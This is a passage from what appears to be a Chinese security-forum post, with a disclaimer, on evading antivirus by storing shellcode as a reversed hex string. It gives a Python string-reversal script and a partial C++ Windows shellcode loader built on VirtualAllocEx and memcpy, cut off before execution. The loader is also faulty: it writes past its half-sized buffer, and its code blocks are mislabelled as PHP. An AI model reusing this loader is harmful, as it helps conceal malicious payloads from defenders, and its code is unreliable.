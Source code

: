 由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。（本文仅用于交流学习）

反转字符串
-----

将字符串整个反转，然后再加载的时候从尾部进行加载，我们可以利用python来进行反转

```php
import sys

if(len(sys.argv) != 2):
    print("usage:\n python3 \"asdasd\"")
else:
    str = sys.argv[1]
    str = str[::-1]
    print(str)
```

![2.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-37594309bfc3cc1f0dd9b6b8085e92212daf472a.png)

先申请一个内存空间，然后利用下面的循环从尾部开始读取，然后赋值给temp

```php
char* temp = (char*)VirtualAllocEx(GetCurrentProcess(), NULL, memory_allocation, MEM_COMMIT, PAGE_READWRITE);

    for (int i = strlen(buf1) - 1; i >= 0; i--)
    {
        temp[p++] = buf1[i];
    }
```

```php
#include <windows.h>
#include <iostream>

using namespace std;

int main(int argc, char* argv[]) {

    char buf1[] = "";
    unsigned int char_in_hex;

    unsigned int iterations = strlen(buf1);
    unsigned int memory_allocation = strlen(buf1) / 2;
    int p = 0;
    char* temp = (char*)VirtualAllocEx(GetCurrentProcess(), NULL, memory_allocation, MEM_COMMIT, PAGE_READWRITE);

    for (int i = strlen(buf1) - 1; i >= 0; i--)
    {
        temp[p++] = buf1[i];
    }

    char* buf = (char*)temp;

    for (int i = 0; i < iterations - 1; i++) {
        sscanf_s(buf + 2 * i, "%2X", &char_in_hex);
        buf[i] = (char)char_in_hex;
    }

    LPVOID Address = VirtualAllocEx(GetCurrentProcess(), NULL, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
    memcpy(Address, buf, memory_allocation);

    DWORD pflOldProtect = 0;
```